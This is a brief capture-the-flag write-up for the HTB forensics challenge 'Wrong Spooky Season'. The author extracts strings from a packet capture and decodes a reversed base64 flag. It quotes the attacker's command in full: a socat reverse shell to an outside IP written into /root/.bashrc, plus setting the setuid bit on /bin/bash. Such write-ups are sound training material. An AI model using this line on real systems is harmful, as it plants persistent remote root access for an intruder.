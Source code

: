 # Wrong Spooky Season

Run strings on the .pcap file

and voila’

`echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`

There is some base64 right? let’s decode it and reverse the text

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

And here is the flag

### HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
